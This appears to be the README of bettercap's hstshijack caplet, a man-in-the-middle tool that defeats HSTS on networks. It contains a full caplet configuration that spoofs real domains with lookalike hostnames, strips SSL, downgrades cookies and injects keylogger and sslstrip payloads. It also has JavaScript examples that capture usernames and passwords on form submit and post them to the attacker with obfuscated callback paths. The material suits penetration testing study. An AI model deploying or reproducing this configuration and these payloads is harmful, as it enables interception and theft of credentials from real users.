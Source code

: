 <p align="center">
  <img width="420px" src="https://raw.githubusercontent.com/buffermet/cdn/master/github.com/bettercap/caplets/hstshijack/logo.svg" />
</p>

### Caplet ([hstshijack.cap](https://github.com/bettercap/caplets/blob/master/hstshijack/hstshijack.cap))

```sh
# Documentation can be found at https://github.com/bettercap/caplets/tree/master/hstshijack

# Domains assigned to 'hstshijack.targets', 'hstshijack.blockscripts' and 'hstshijack.payloads'
# variables get precendence over those assigned to the 'hstshijack.ignore' variable.
set hstshijack.targets                    *.com, *.net,*.me, *.nl,*.ai,*.co.uk,*.cn,*.google
set hstshijack.replacements               *.corn,*.nel,*.rne,*.ni,*.al,*.cc.uk,*.ch,*.googl
set hstshijack.replacements.req.body      /usr/local/share/bettercap/caplets/hstshijack/replacements/req.body.json
set hstshijack.replacements.req.headers   /usr/local/share/bettercap/caplets/hstshijack/replacements/req.headers.json
set hstshijack.replacements.req.url       /usr/local/share/bettercap/caplets/hstshijack/replacements/req.url.json
set hstshijack.replacements.res.body      /usr/local/share/bettercap/caplets/hstshijack/replacements/res.body.json
set hstshijack.replacements.res.headers   /usr/local/share/bettercap/caplets/hstshijack/replacements/res.headers.json
set hstshijack.ssl.domains                /usr/local/share/bettercap/caplets/hstshijack/ssl/domains.txt
set hstshijack.ssl.index                  /usr/local/share/bettercap/caplets/hstshijack/ssl/index.json
set hstshijack.ssl.index.check            true
set hstshijack.ssl.discovery.synchronous  true
set hstshijack.ssl.discovery.timeout      4
set hstshijack.cookies.downgrade          true
#set hstshijack.blockscripts               example.com,*.example.com
set hstshijack.obfuscate                  true
set hstshijack.payloads                   *:/usr/local/share/bettercap/caplets/hstshijack/payloads/hijack.js,*:/usr/local/share/bettercap/caplets/hstshijack/payloads/sslstrip.js,*:/usr/local/share/bettercap/caplets/hstshijack/payloads/keylogger.js,*.google.com:/usr/local/share/bettercap/caplets/hstshijack/payloads/google-search.js,google.com:/usr/local/share/bettercap/caplets/hstshijack/payloads/google-search.js
set hstshijack.whitelist                  /usr/local/share/bettercap/caplets/hstshijack/session/whitelist.json
set hstshijack.ignore                     captive.apple.com,connectivitycheck.gstatic.com,detectportal.firefox.com,www.msftconnecttest.com

net.recon on

set http.proxy.script  /usr/local/share/bettercap/caplets/hstshijack/modules/hstshijack.js
http.proxy on

set dns.proxy.script /usr/local/share/bettercap/caplets/hstshijack/modules/dns.proxy.js
dns.proxy on
```

### <a href="./payloads/hijack.js">**hijack.js**</a> payload

This module injects files with a JavaScript payload (<a href="./payloads/hijack.js">**hijack.js**</a>) which acts as a callback for bettercap, and takes care of hostname spoofing in attributes of injected documents, as well as fetch and XMLHttpRequest.

Injecting <a href="./payloads/hijack.js">**hijack.js**</a> is essential for hostname spoofing.

### Scalable domain indexing (SSL log)

<br>

<p align="center">
  <img src="https://raw.githubusercontent.com/buffermet/cdn/refs/heads/master/github.com/bettercap/caplets/hstshijack/ssl.index.png" alt="Indexed domains that use HTTPS" />
</p>

When hosts respond with an HTTPS redirect, bettercap will save their hostname in lists that are sorted by domain prefixes, allowing the list to scale by reducing a considerable amount of overhead for the proxy module.

By default, this caplet will remap these lists of domains that were found in the file that you assigned to the `hstshijack.ssl.domains` variable on launch (to ensure that it is still in the right format). You can skip this by setting the `hstshijack.ssl.index.check` variable to `false`.

Bettercap will also send a HEAD request to unknown hosts that were discovered in the injected document and retrieved via a callback from the <a href="./payloads/hijack.js">**hijack.js**</a> payload. This is done to learn what hosts use HTTPS, ahead of time.

Hostnames that you target with the `hstshijack.targets` variable are automatically logged and indexed.

### Hostname spoofing

In the <a href="./hstshijack.cap">**caplet file**</a> you can assign comma separated domains to the `hstshijack.targets` variable. _(wildcard allowed)_

For every targeted hostname you must specify a replacement hostname, like this:

```sh
set hstshijack.targets       google.com, *.google.com
set hstshijack.replacements  google.corn,*.google.corn
```

You can try to make them as unnoticeable as you can, but your options are limited here in terms of evading HSTS.

### Regular Expression replacements

...

### Block scripts

In the <a href="./hstshijack.cap">**caplet file**</a> you can block JavaScript from hosts by assigning them to the `hstshijack.blockscripts` variable. _(wildcard allowed)_ 

### Custom payloads

You can also inject your own scripts into files from your specified hosts by assigning them to the `hstshijack.payloads` variable.

Custom payloads are (optionally) obfuscated at launch, executed synchronously, and wrapped inside a function that is defined as a property of the current JavaScript context (globalThis). This is done to ensure that your payload is only executed once per application, even if injected multiple times.

Example:

```sh
set hstshijack.payloads        *:/usr/local/share/bettercap/caplets/hstshijack/payloads/hijack.js,*:/usr/local/share/bettercap/caplets/hstshijack/payloads/sslstrip.js,*:/usr/local/share/bettercap/caplets/hstshijack/payloads/keylogger.js
```

You should always inject the <a href="./payloads/hijack.js">**hijack.js**</a> payload when spoofing hostnames.

### Obfuscation

You can write custom payloads that are automatically obfuscated by the module.

Basically, every word that was found beginning with `obf_hstshijack_` will be obfuscated.

Example: 

```js
function obf_hstshijack_function() {
  alert("Random variable: obf_hstshijack_whatever_follows")
}

obf_hstshijack_function()
```

Will be injected as:

```js
function jfIleNwmKoa() {
  alert("Random variable: AsjZnJWklwMNqshCaloE")
}

jfIleNwmKoa()
```

### Silent callbacks

You can have your payloads send callbacks to your machine that bettercap will print, but not proxy.

Example of a silent callback:

```js
form.onsubmit = function() {
  req = new XMLHttpRequest()
  req.open("POST", "http://" + location.host + "/obf_hstshijack_path_callback?username=" + username + "&password=" + password)
  req.send()
}
```

The following POST request will be sniffed by bettercap, but not proxied (the request will be dropped). 

Any instance of `obf_hstshijack_path_callback` will be replaced with the callback path (see example above).

### Whitelisting callbacks

You can automatically terminate an attack between specific clients and hosts by making the client's machine initiate a whitelisting callback.

Example of multiple whitelisting callbacks:

```js
// Whitelist multiple hosts to ensure the intended resources will load.

form.onsubmit = function() {
  // Whitelist current hostname and phish credentials
  req = new XMLHttpRequest()
  req.open("POST", "http://" + location.hostname + "/obf_hstshijack_path_whitelist?email=" + email + "&password=" + password)
  req.send()

  // Whitelist facebook
  req = new XMLHttpRequest()
  req.open("POST", "http://facedook.com/obf_hstshijack_path_whitelist")
  req.send()

  // Whitelist facebook CDN
  req = new XMLHttpRequest()
  req.open("POST", "http://static.xx.fdcdn.net/obf_hstshijack_path_whitelist")
  req.send()

  // Whitelist redirect to facebook
  req = new XMLHttpRequest()
  req.open("POST", "http://fd.com/obf_hstshijack_path_whitelist")
  req.send()
}
```

When a request is sent as above, bettercap will stop spoofing connections between the sender and the requested host.

If any resource from a spoofed host is requested that was previously whitelisted for that client, then that client will be redirected to the intended (unspoofed) host.
